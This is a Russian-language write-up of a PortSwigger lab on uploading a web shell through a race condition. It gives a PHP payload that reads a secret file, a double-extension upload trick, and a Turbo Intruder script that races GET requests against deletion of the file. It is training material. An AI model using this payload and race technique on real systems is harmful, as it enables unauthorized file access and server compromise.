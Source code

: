 # Web shell upload via race condition

## Theory

<h3>Использование условий гонки при загрузке файлов</h3>

Современные фреймворки более защищены от подобных атак. Как правило, они не загружают файлы напрямую в предполагаемое место назначения в файловой системе. Вместо этого они принимают меры предосторожности, такие как загрузка во временный изолированный каталог и случайное имя, чтобы избежать перезаписи существующих файлов. Затем они выполняют проверку этого временного файла и передают его в место назначения только после того, как это будет сочтено безопасным.

Тем не менее, разработчики иногда реализуют собственную обработку загрузки файлов независимо от какой-либо платформы. Мало того, что это довольно сложно сделать хорошо, это также может привести к опасным условиям гонки, которые позволяют злоумышленнику полностью обойти даже самую надежную проверку.

Например, некоторые веб-сайты загружают файл непосредственно в основную файловую систему, а затем снова удаляют его, если он не проходит проверку. Такое поведение типично для веб-сайтов, которые полагаются на антивирусное программное обеспечение и тому подобное для проверки на наличие вредоносных программ. Это может занять всего несколько миллисекунд, но пока файл существует на сервере, злоумышленник потенциально может его выполнить.

Эти уязвимости часто очень незаметны, что затрудняет их обнаружение во время тестирования черного ящика, если вы не можете найти способ утечки соответствующего исходного кода.

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/1.png)

Логинимся c имеющимися данными. У нас есть возможность загрузки аватара пользователя. Загрузим экплоит. Мы получаем сообщение о том, что мы можем загружать только картинки.

Код эксплоита:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/3.png)

Попробуем снова загрузить наш экплоит. Перехватим запрос. Изменим название файла на **exploit.php.jpg**, добавив еще одно расширение. Файл успешно загружен.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/5.png)

Воспользуем Turbo Intruder. При отправке файла, он некоторое время находится на сервере, и только потом удаляется в ходе проверки. Мы отправим файл и несколько GET запросов, чтобы успеть открыть его до удаления. Мы будем использовать следующий код, чтобы отправлять запросы. 
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Возьмем POST запрос /my-account/avatar и скопируем все содержимое. Вставим скопированный запрос в request1.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/6.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/7.png)

Затем скопируем GET запрос /files/avatars/exploit.php.jpg для открытия файла. Вставим его в request2, удалив расшрение .jpg.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/8.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/9.png)

Запускаем атаку. Некоторые запросы на открытие эксплоита прошли успешно, поэтому мы можем видеть содержимое необходимого нам файла.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/10.png)

Подтверждаем ответ и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Web_shell_upload_via_race_condition/assets/11.png)
